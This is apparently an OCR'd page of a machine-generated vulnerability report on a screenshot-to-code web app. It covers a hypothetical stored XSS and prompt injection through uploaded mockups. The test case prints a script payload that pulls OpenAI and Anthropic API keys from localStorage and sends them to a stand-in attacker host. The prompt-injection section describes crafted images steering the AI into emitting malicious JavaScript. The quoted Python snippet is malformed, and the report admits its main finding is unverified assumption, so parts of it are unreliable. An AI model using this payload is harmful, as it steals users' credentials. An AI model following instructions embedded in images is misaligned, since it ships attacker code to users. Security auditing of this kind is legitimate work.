 - **Preconditions:**
    - A Stored XSS vulnerability must exist in the React frontend (unverified).
    - Users must configure API keys via a settings dialog, and these keys must be stored client-side (assumed storage in localStorage or cookies).
    - Users must interact with content containing the stored XSS payload.

- **Source Code Analysis:**
    - **Backend `routes/generate_code.py`:**
        ```python
        def get_from_settings_dialog_or_env(params, "openAiApiKey", OPENAI_API_KEY):
            # ... retrieves API keys from params or env ...
        ```
        - This backend code retrieves API keys from parameters sent from the frontend, implying the frontend handles API key input and potentially storage.  However, without frontend code, the storage mechanism and XSS vulnerabilities cannot be directly verified.

    - **Absence of Frontend Code:**  Direct frontend code analysis for XSS is not possible. This vulnerability is based on assumptions about frontend functionality and potential vulnerabilities.

- **Security Test Case:**
    - **Assumes a Vulnerable Frontend:** This test case is theoretical and depends on a hypothetical Stored XSS vulnerability in the frontend.
    1. **Setup (Attacker Server):** Set up an attacker-controlled server to receive stolen API keys.
    2. **Inject XSS Payload (Hypothetical Frontend Input):** Find a hypothetical vulnerable input field in the React frontend (e.g., 'Project Description'). Inject the following XSS payload:
        ```html
        <script>
        window.onload = function() {
            var openAiKey = localStorage.getItem('openAiApiKey');
            var anthropicKey = localStorage.getItem('anthropicApiKey');
            if (openAiKey || anthropicKey) {
                fetch('https://attacker-server.example.com/collect-keys?openai=' + openAiKey + '&anthropic=' + anthropicKey, { mode: 'no-cors' });
            }
        };
        </script>
        ```
        Replace `https://attacker-server.example.com/collect-keys` with your server URL.
    3. **Trigger Stored XSS:** As another user, navigate to the part of the application displaying the assumed vulnerable content ('Project Description').
    4. **Verify API Key Theft:** Check attacker server logs for requests to `/collect-keys` with stolen API keys.

#### 3. Prompt Injection leading to Cross-Site Scripting (XSS)

- **Vulnerability Name:** Prompt Injection leading to Cross-Site Scripting (XSS)
- **Description:**
    1. An attacker crafts a malicious screenshot or design mockup that includes text or visual elements intended to be interpreted as instructions by the AI model. This input is designed to manipulate the AI's code generation process.
    2. A user uploads this malicious screenshot or mockup to the application for code generation.
    3. The backend processes the image, extracts information, and constructs a prompt for the AI model, including the content from the attacker's malicious input.
    4. The AI model interprets the injected instructions within the prompt and generates code that incorporates these unintended instructions. If the injected instruction is a Javascript code snippet or HTML with JavaScript event handlers, the generated code will likely include this malicious script.
    5. The application streams the generated code back to the user.
    6. If a user deploys the generated code without review and sanitization, the injected malicious script (e.g., XSS payload) can be executed in the user's browser when the generated code is accessed.
